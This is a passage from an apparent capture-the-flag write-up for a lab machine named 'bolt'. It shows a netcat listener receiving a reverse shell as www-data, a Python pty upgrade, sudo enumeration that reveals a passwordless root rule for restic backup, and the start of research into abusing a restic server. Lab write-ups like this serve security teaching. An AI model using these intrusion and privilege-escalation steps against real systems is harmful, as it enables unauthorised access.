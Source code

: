 ![rest_server](public/images/rest_server.jpg)
Fig: Uploaded File

**Listner on**:

```bash
root@gr4n173:~$ nc -lvnp 8888
listneing on [any] 8888

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58100
Linux bolt 4.15.0-65-generic #74-Ubuntu SMP Tue Sep 17 17:06:04 UTC x86_64 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0 can't access tty;job contorl turned off
$ $python -c "import pty;pty.spawn('/bin/bash')"
www-data@bolt:$ sudo -l 
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```

As, I saw the `restic` server running as root then searched for files and got `backup.php`

```php
www-data@bolt:/var/www/html$ cat backup.php
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
```

#### Restic Server
Then I searched about `restic` server and collected knowledge you can find [here](https://restic.readthedocs.io/en/latest/) and at first I download to my localhost then started the restic server as you can find file [rest-server](https://github.com/restic/rest-server).
